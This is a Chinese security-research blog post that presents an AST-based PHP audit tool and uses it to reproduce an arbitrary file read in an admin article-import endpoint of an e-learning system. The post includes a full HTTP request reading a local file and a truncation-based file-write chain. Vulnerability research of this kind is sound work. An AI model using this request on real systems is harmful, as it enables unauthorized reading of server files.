










# 利用ast审计某du系统-先知社区

> **来源**: https://xz.aliyun.com/news/16506  
> **文章ID**: 16506

---

## 一个php的静态代码审计工具

目前在做一个小工具，基于ast语义分析的，类似于Kunlun-M的反序列化链插件查找功能，  
（想去二开的，不过Kunlun-M的使用说明文档不多，所以就自己设计了一个函数链查找功能）  
目前实现了检测恶意函数调用链功能，  
后续会再优化检测恶意函数调用链功能，减少误报，并且会添加反序列化漏洞检测功能等，

如以下查找恶意函数调用链，查询的深度小于等于3，



以下是查询深度为4的调用链，



然后就可以快速去dedbug了，  
链1是任意文件读取，  
链4和链9组合能造成文件写入，不过写入的文件不在web目录中，



等我实战优化一段时间，然后写个使用文档，再开源出来让师傅们提提建议

## 某duSoho v23.4.4存在任意文件读取+文件写入

以此系统为例，复现上面扫出来的漏洞调用链，

安装：<http://192.168.91.1:8089/install.install.php>  
登录 <http://192.168.91.1:8089/app.php/login>

任意文件读取：  
这里使用file\_get\_contents，支持phar，不过默认需要设置phar.readonly = off，phpstudy默认没有设置，  
因此利用不了，只能进行文件读取，

```
GET /app.php/admin/article/createFromUrl?url=D:/1.txt HTTP/1.1
Host: 192.168.91.1:8089
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.91.1:8089/app.php/admin/setting/optimize
X-CSRF-Token: Cu1XlQjl7juHIfbnVvO3TUTESL_Ni_r056lENfsRMnw
X-Requested-With: XMLHttpRequest
Origin: http://192.168.91.1:8089
Connection: close
Cookie: PHPSESSID=rjlsuulrbjkcilubo2rn04s5nl; REMEMBERME=Qml6XFVzZXJcQ3VycmVudFVzZXI6TVRFeFFIRnhMbU52YlE9PToxNzM2MTMxNTQ2OmI0YzRlOWNiN2RjZWYwMjI0Y2QxMWNlMDc1NThhYjZhY2MwOWFiNWZlZjRlYjQzZTZiZTRlMGYzN2Y5ZjhlMmI%3D
Priority: u=1
Content-Length: 0

```





文件写入：  
这里判断路径下的windid\_client\_config.php文件是否存在（默认不存在），  
如果存在，那么使用file\_put\_content函数写入，写入内容可控，



paymentAction调用updateWeixinMpFile函数最终调用到file\_put\_contents函数，  
这里拼接的文件名，拼接内容可控，那么我们可以使用:截断，  
file\_put\_contents($dir.'/MP*verify*'.$val.'.txt', $val);





先截断上传php文件，截断后，写入不了内容，



然后利用userCenterAction函数写入内容，不过没在web目录中，访问不到。。。


